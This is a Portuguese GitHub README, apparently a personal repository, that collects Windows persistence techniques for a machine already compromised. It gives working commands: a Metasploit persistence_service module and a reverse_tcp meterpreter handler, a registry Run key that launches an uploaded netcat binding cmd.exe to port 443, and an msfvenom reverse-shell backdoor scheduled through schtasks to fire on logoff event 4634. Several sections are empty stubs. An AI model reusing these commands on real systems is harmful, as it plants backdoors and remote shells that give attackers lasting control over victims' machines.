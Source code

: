 # Awesome Windows Persistence

![829c15633cef94444c681910dfedd23b](https://user-images.githubusercontent.com/67444297/198659100-fbdb0b32-38b0-4ff6-a5ab-7ae305cf51cc.gif)

**Técnicas e táticas para manutenção de persistência em um alvo explorado.**

Eu sou o Stux e estarei constantemente atualizando este repositório com novas técnicas para Windows Persistence!

**Obs: Todos os processos de persistência partem do princípio de que você já possui uma shell ou acesso ao ambiente**

## Sumário
 - [Persistence Service](https://github.com/Stuuxx/awesome-persistence#persistence-service)
 - [Persistence Registry](https://github.com/Stuuxx/awesome-persistence#persistence-registry)
 - [Netcat](https://github.com/Stuuxx/awesome-persistence#netcat)
 - [RDP](https://github.com/Stuuxx/awesome-persistence#rdp)
 - [Schtasks](https://github.com/Stuuxx/awesome-persistence#schtasks)
 - [Schtasks-Log Events](https://github.com/Stuuxx/awesome-persistence#schtasks---log-events)
 - [WMIC]()
 - [Wmi-Persistence](https://github.com/Stuuxx/awesome-persistence/blob/main/README.md#wmi-persistence)
 - [SharPersist](https://github.com/Stuuxx/awesome-persistence/blob/main/README.md#sharpersist)

### Persistence Service
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:
Essa técnica tem como objetivo criar um serviço persistente no windows explorado na qual executará diversas vezes o payload de conexão reversa.

Etapas:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;

Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**
```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)
- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)
Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


### Persistence Registry
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Netcat
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:
Nessa técnica, iremos realizar o upload do netcat para o alvo e iremos modificar um registro para que o alvo execute ele, nos abrindo uma porta para conectar posteriormente quando necessário.

Etapas:
- Vamos realizar o upload do netcat para algum diretório do alvo.
```bash
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```
![nc1](https://user-images.githubusercontent.com/67444297/198689309-274f2c78-f4f0-45b0-b2e8-4eb9884615a9.jpg)

- Após realizado o upload, iremos modificar o registro para que o Netcat seja executado.
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e C:\windows\system32\cmd.exe'
```
![nc2](https://user-images.githubusercontent.com/67444297/198689312-33e81bea-6fec-43e7-bb09-fbe4b3c3bfea.jpg)

- Agora, iremos verificar como ficou nossa modificação.
```bash
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc
```
![nc3](https://user-images.githubusercontent.com/67444297/198689313-1abd224e-cd03-4853-9958-65540a2cdb16.jpg)

Para prova de conceito, iremos dar um reboot na máquina explorada para que nosso ataque seja efetivado nos registros do sistema.

![nc4](https://user-images.githubusercontent.com/67444297/198689314-683654df-041d-453d-bec6-be6f419130ec.jpg)

- Após o ataque ser bem sucedido, vamos nos conectar na máquina explorada através do netcat.
```bash
nc IP PORTA
```
![nc5](https://user-images.githubusercontent.com/67444297/198689315-99ce1fe9-5608-4374-b861-b48f09492a57.jpg)


### RDP
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview: 


Etapas:


### Schtasks
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:
- 

### Schtasks - Log Events
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Nesse caso, estamos criando uma tarefa que pode ser acionada em um log de segurança específico do Windows event. Ou seja, ID do event: 4634 (4634: event desconectado de uma conta). Quando um usuário faz logoff, então este event é gerado. Portanto, a tarefa agendada é executada assim que o usuário fizer login novamente.

Etapas:
- Vamos iniciar criando um backdoor via msfvenom.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=SEUIP LPORT=4444 -f exe > backdoor.exe
```
![Screenshot_1](https://user-images.githubusercontent.com/67444297/198754911-1b1001ce-e154-4982-8f9b-158cdc15d4e4.jpg)

- No meterpreter, iniciaremos a shell e criaremos a task através do schtasks setando o nosso backdoor.
```bash
shell
schtasks /Create /TN SessionOnLogOff /TR C:\Windows\System32\backdoor.exe /SC ONEVENT /EC Security /MO "*[System[(Level=4 or Level=0) and (EventID=4634)]]"
```
![Screenshot_3](https://user-images.githubusercontent.com/67444297/198754915-d0c88527-cc5e-4c89-8a71-df76edbc8bc6.jpg)
- Iniciaremos o multi/handler para receber a shell.
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![Screenshot_2](https://user-images.githubusercontent.com/67444297/198754914-cfa45c52-0dea-41f2-a8cf-a60855680d89.jpg)

Para prova de conceito, iremos dar um reboot na máquina explorada para que nosso ataque seja efetivado e a task seja executada.
![Screenshot_4](https://user-images.githubusercontent.com/67444297/198754918-e532b2a5-337c-48b7-a08c-7c61862dac6c.jpg)

- Após o reboot, receberemos nossa shell.

![Screenshot_5](https://user-images.githubusercontent.com/67444297/198754920-67ffe450-596a-4dfc-8736-8e5eed3ca16e.jpg)

### WMIC
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


### Wmi-Persistence
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


### SharPersist
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Ficou com alguma dúvida?
Sinta-se a vontade para entrar em contato comigo através de minhas redes sociais!
 - LinkedIn : [Eduardo Maragno](https://www.linkedin.com/in/eduardo-maragno/)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux](https://medium.com/@stux)
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
